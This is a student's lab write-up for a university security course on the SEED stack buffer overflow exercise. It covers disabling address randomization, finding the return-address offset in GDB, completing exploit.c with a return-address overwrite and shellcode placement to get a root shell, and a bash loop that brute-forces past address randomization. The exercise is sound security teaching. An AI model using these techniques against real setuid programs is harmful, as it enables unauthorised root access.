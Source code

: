 # CSUS CSC154: Lab 1

## Introduction
Buffer overflow is defined as the condition in which a program attempts to write data beyond the boundaries of pre-allocated fixed length buffers. This vulnerability can be utilized by an attacker to alter the flow control of the program, even execute arbitrary pieces of code. This vulnerability arises due to the mixing of the storage for data (e.g. buffers) and the storage for controls (e.g. return addresses): an overflow in the data part can affect the control flow of the program, because an overflow can change the return address.

### Initial Setup
Most modern Linux-based operating systems implement address space randomization, by default, in order to to randomize the starting address of the heap and stack. In this lab we began by disabling this feature in order to simplify our buffer overflow attack by more easily calculating the return address. Address randomization is turned off via the following command `sudo  sysctl -w kernel.randomize_va_space=0`.

Next we download the vulnerable program **[stack.c](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Buffer_Overflow/files/stack.c)**, and the exploit code **[exploit.c](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Buffer_Overflow/files/exploit.c)**.

After this we compile the vulnerable program with an executable stack via `sudo gcc -o stack -z execstack -fno-stack-protector stack.c`. We then set ownership of the vulnerable program to the root user via `sudo chown root stack`. Finally we make the vulnerable program *set-root-uid* by issuing `sudo chmod 4755 stack`.

![setup](./writeup/images/setup.png)
**Figure 1**: Intial setup of Task 1.

We're now ready to begin exploiting the buffer overflow vulnerability in **stack.c**.

## Task 1: Exploiting the Vulnerability (No Address Randomization)

### Calculating the return address
In order to achieve a buffer overflow, we must first calculate where the return address lies on the stack. Running the vulnerable executable in *GDB* allows us to print the address of *buffer* and the *ebp* register. These values can be used to calculate the address of where the function returns.

First recompile **stack.c** to create a copy we're able to work with via `gcc -z execstack -fno-stack-protector -g -o stack_gdb stack.c`. Now the executable we'll debug is called *stack_gdb*. Furthermore, we need a file named *badfile* in our directory in order to execute the program correctly. So we create an empty file with that name via `echo "" >> badfile`.

![stack_gdb](./writeup/images/stack_gdb.png)
**Figure 2**: We are now ready to begin debugging.

We issue the command `gdb stack_gdb` to begin debugging the vulnerable executable. First we set a break point at the `bof()` function, where our buffer overflow vulnerability lies via `b bof`, and then issue `run` to hit said breakpoint.

![breakpoint_bof](./writeup/images/breakpoint_bof.png)
**Figure 3**: GDB debugger at `bof()` breakpoint.

Now that we've reached our breakpoint at `bof()`, we print our address values for the *buffer* and *ebp* register. Subtracting the address of *buffer* from *ebp* will allow us to calculate the return address.

![offset_32](./writeup/images/offset_32.png)
**Figure 4**: Offset is 32 bytes.

Since we see the value of the offset is 32 bytes, we can calculate the return address to be 36, as it's 4 bytes above this value in the stack. We can now complete our *exploit.c* file by adding the following code in `main()`.


```c
    /* You need to fill the buffer with appropriate contents here */
	  // From tasks A and B
	  *((long *)(buffer + 36)) = 0xbffff108 + 0x100;

	  // Place the shell code towards the end of the buffer
	  memcpy(buffer + sizeof(buffer) - sizeof(shellcode) , shellcode , sizeof(shellcode));
```


We then compile our exploit code via `gcc -o exploit exploit.c`, and run the exploit to generate the contents of our *badfile*. When we run the vulnerable program at this point we're able to cause a buffer overflow and achieve a root shell.

![rooted](./writeup/images/rooted_1.png)
**Figure 5**: Root shell.


## Task 2: Exploiting the Vulnerability (Address Randomization)
For this exercise we turn address randomization back on via `sudo  sysctl -w kernel.randomize_va_space=2`. Now when we run the same attack which previously succeeded, we get a segmentation fault.

![seg_fault](./writeup/images/seg_fault.png)
**Figure 6**: Segmentation fault caused by address randomization.


By running our attack in a loop, we're able to brute-force our return address. The following code runs our attack multiple times, measuring both the time elapsed and number of attempts before successfully guessing the return address and  gaining a root shell.   

Thanks to Professor Dai for providing this script to me for making these calculations.  

```bash
#!/bin/bash
SECONDS=0
value=0
while [ 1 ]
do
  value=$(( $value + 1 ))
  duration=$SECONDS
  echo "$(($duration / 60)) minutes and $(($duration %60)) seconds elapsed."
  echo "The program has been running for $value times."
  ./stack
done
```

![rooted again](./writeup/images/rooted_2.png)
**Figure 7**: Rooted with address randomization enabled.

The attack ran for 31 minutes & 36 seconds (20,114 times), before we finally gain our root shell.
